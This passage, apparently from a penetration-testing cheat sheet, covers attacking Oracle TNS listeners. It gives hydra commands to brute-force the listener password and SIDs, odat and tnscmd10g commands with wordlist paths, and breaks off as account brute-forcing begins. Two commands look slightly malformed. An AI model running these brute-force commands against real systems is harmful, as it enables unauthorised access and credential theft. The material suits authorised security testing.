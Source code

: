 {% hint style="danger" %}
If you **receive an error**, could be because **TNS versions are incompatible** (Use the `--10G` parameter with `tnscmd10`) and if the **error persist,** the listener may be **password protected**&#x20;
{% endhint %}

We can use hydra to brute-force TNS-Listener password

```bash
hydra -P rockyou.txt -t 32 -s 1521 <IP> oracle-listener
```
{% endtab %}
{% endtabs %}

### **Targeting** SID

The SID (Service Identifier) is essentially the database name, depending on the install you may have one or more default SIDs, or even a totally custom dba defined SID.

{% tabs %}
{% tab title="Bruteforce" %}
We can brute-force SID  using [Hydra](https://github.com/vanhauser-thc/thc-hydra) or [Odat](https://github.com/quentinhardy/odat)

```bash
#Using Hydra
hydra -L sid.txt -s 1521 <IP> oracle-sid

#Using odat
odatPLSEXTPROC sidguesser -s $SERVER -d $SID --sids-file=./sids.txt

# Interesting Wordilists
cat /usr/share/metasploit-framework/data/wordlists/sid.txt
cat /usr/share/nmap/nselib/data/oracle-sids
```
{% endtab %}

{% tab title="Enumerate" %}
In some old versions (in **9** it works) we can enumerate the SID using **`tnscmd10g`**

```bash
#The SID are inside: SERVICE=(SERVICE_NAME=<SID_NAME>)
tnscmd10g status-p 1521 -h <IP>
```
{% endtab %}
{% endtabs %}

### **Targeting Accounts**

Once we have found a valid SID, the next step is account enumeration. From this point, you can connect to the listener and brute-force credentials.

{% tabs %}
{% tab title="Bruteforce" %}
We can use [Hydra](https://github.com/vanhauser-thc/thc-hydra) or [odat](https://github.com/quentinhardy/odat), or [nmap](https://nmap.org/dist/) to bruteforce accounts on a known SID
